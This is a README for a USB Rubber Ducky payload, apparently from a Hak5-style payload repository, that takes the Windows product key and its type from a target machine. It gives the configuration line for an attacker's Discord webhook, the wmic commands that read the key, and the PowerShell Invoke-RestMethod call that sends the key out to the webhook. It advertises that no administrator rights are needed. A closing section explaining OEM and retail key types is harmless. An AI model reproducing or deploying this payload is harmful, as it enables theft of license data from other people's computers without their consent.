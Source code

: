 # Exfiltrate Windows Product Key

Through this payload, you can export the key information related to the Windows Product Key, knowing its type and the key itself, using a Discord Webhook.

No administrator permissions are required to do this, isn't that absurd, right? :-)

![](./assets/1.png)

**Category**: Exfiltration

## Index

- [Introduction](#exfiltrate-windows-product-key)
- [Note](#note)
- [Dependencies](#dependencies)
- [Settings](#settings)
- [Payload Description](#payload-description)
- [Product Key Types](#product-key-types)
- [Sources](#sources)

## Note

Tested on:
- Windows 11

## Dependencies

- Discord Webhook

## Settings

This portion of the payload serves as a user-defined configuration section where you should input your Discord Webhook URL. You should replace "example.com" with the actual Discord Webhook URL you want to use. The Webhook URL is the endpoint where your payload will send the acquired information related to the Windows Product Key, as well as its type, for exfiltration to a specified Discord channel or server. It's a crucial part of the payload that connects the data extraction process to your Discord platform for further analysis or actions.

```DuckyScript
DEFINE #DISCORD_WEBHOOK example.com
```

## Payload Description

Through this payload, you can export essential information related to the Windows Product Key using a Discord Webhook, ensuring that you identify its type and the key itself.

At the beginning of the payload, the DETECT_READY extension [[1](#sources)] is used to optimize the opening of a PowerShell session on the target.

The following commands are then executed to obtain the necessary information about the Product Key:

1. This command retrieves the currently in-use Product Key:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKey
   ```

2. This command helps determine the type of key. You can refer to the [key types section](#key-types) for more details:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKeyDescription
   ```

The acquired information is stored in the `$exfiltration` variable, which is subsequently used to create the `$payload` object. This object is then utilized for exfiltration via a Discord Webhook.

**Exfiltration via Discord Webhook**:

The `$hookUrl` variable was initialized at the beginning of the payload with the value you need to define before execution.

```powershell
Invoke-RestMethod -Uri $hookUrl -Method Post -Body ($payload | ConvertTo-Json) -ContentType 'Application/Json'; exit
```

**Exfiltration via USB Rubber Ducky Storage**:

If you use the exfiltration method set up to retain data using Rubber Ducky's USB storage, you will not have to make any changes.

## Product Key Types

When dealing with Windows Product Keys, it's essential to understand the different types and their characteristics:

- **OEM Keys** (*Original Equipment Manufacturer*):

      **Transferability**: Not supposed to be transferable. These keys are typically tied to the prebuilt PC on which they were originally installed.
      **Usage**: Manufacturers use OEM keys to install Windows on new computers.
      **Procurement**: OEM keys can sometimes be found at discount key vendors, although their use on different hardware may be challenging.

- **Retail Keys** (*aka "Full Packaged Product" Keys*):
      
      **Transferability**: Transferrable. These keys can be moved from one computer to another.
      **Cost**: Retail keys are often more expensive, often exceeding $100.
      **Hidden Keys**: In some cases, a computer may already have a retail key, perhaps from a previous Windows upgrade. Users might not be aware of this until they check.

Understanding these key types is crucial when working with Windows Product Keys, as it can impact their use, transferability, and compatibility with different hardware and scenarios.

*Note: Source of this info [[2](#sources)]*

## Sources

- [1] Detect Ready: https://shop.hak5.org/blogs/usb-rubber-ducky/detect-ready
- [2] Is your Windows Product Key transferrable? https://www.tomshardware.com/how-to/transfer-windows-license-to-new-pc#is-your-windows-product-key-transferrable-3
